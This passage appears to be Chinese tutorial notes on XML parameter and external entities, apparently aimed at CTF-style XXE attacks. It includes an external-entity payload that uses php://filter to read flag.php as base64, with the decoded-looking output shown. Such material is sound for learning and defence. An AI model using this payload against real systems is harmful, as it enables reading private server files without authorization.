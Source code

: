 ### 参数实体

```xml
<!DOCTYPE note> [
    <!ENTITY % b "<!ENTITY b1 "awsl">">
    %b;
]>
<note>&b1</note>
<!-- awsl -->
```

- 参数实体用`% name`申明，引用时用`%name;`，只能在DTD中申明，DTD中引用。
- 其余实体直接用`name`申明，引用时用`&name;`，只能在DTD中申明，可在xml文档中引用

### 外部实体

```xml
<!DOCTYPE note> [
    <!ENTITY c SYSTEM "php://filter/read=convert.base64-encode/resource=flag.php">
]>
<note>&c</note>
<!-- Y2w0eV9uZWVkX2FfZ3JpbGZyaWVuZA== -->
```

外部引用可支持http，file等协议，不同的语言支持的协议不同，但存在一些通用的协议，具体内容如下所示：
<img src="图片\1270588-20200115235522292-2141935835.png" alt="img"  />](png)
上图是默认支持协议，还可以支持其他，如PHP支持的扩展协议有
<img src="图片\1270588-20200115235555856-2031563427.png" alt="img" style="zoom:80%;" />
